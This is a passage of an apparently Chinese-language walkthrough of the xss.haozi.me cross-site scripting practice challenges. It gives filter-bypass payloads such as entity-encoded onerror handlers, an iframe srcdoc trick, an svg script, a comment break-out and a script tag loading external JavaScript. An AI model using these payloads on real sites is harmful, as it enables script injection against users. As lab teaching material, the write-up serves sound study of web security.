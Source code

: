 
方法三 ：直接引用外部js文件

```
<script src="https://xss.haozi.me/j.js"></script>
```



### 04 html entities

![image-20240506154159276](https://s2.loli.net/2024/05/09/8N9J7YXW3ucBhCA.png)

payload = `<img src="" onerror=alert&#x28;&#x31;&#x29;>`

```html
<script>window.onerror=eval;throw'=alert\x281\x29'</script>//利用js捕获抛出错误执行弹框，Unicode编码
<iframe srcdoc="<script>parent.alert&#40;1&#41;</script>">//利用HTML5中iframe的特点，其srcdoc属性里的代码会作为iframe中的内容显示出来，srcdoc中可以直接去写转译后的HTML片段
<svg><script>alert&#40;1&#41</script>//svg标签可直接执行实体字符即HTML转义字符，若不添加在前则包含解析script标签内容的编码内容
```





### 05  -->

过滤了-->，并将输入放入注释中间但是，

HTML注释支持以下两种方式：

- `<!-- xxx -->`
- `<!- xxx -!>` 

![image-20240506162755606](https://s2.loli.net/2024/05/09/GCSIhzF5OtNad4n.png)

payload = `--!><script>alert(1)</script>`



### 06

```js
function render (input) {
  input = input.replace(/auto|on.*=|>/ig, '_')
  return `<input value=1 ${input} type="text">`
}
```



#### `input.replace(/auto|on.*=|>/ig, '_')`

- `/ ....  /` : mark the start and end of the regular expression literal 

- `ig` : flags for the regex

  - `i` : case-insensitive( 不分大小写 )
  - `g` : global, replace all occurrences of the matched patterns rather than the first one
